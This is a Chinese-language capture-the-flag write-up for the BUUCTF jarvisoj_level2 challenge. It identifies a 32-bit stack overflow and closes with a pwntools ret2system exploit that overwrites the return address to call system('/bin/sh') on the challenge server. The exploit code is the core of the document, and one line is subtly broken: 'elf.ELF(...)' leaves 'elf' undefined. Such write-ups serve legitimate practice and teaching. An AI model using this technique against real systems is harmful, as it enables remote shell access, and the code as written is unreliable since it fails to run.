




# 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#jarvisoj_level2)

我们先用checksec一下，32位，开启了栈不可执行，大概率是栈溢出



首先获取到文件，使用ida打开，F5进行反汇编



可以看到有system函数，然后进去vulnerable_function()



看到了一个常规的栈溢出，我们再去寻找一个后门函数，找了一遍，只发现有system和"/bin/sh"，所以拿来构造payload



# exp

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
elf.ELF('./level2')
p = remote("node5.buuoj.cn",27049)
system_addr = elf.sym['system']	#这样可以准确拿到地址
bin_sh = next(elf.search(b'/bin/sh'))
payload = b'A'*0x8c + p32(system_addr) + p32(0) + p32(bin_sh)	#加上p32(0)，是因为前面调用了system函数，后面要接一个返回地址，才符合32位的函数调用
p.recv()
p.sendline(payload)
p.interactive()
```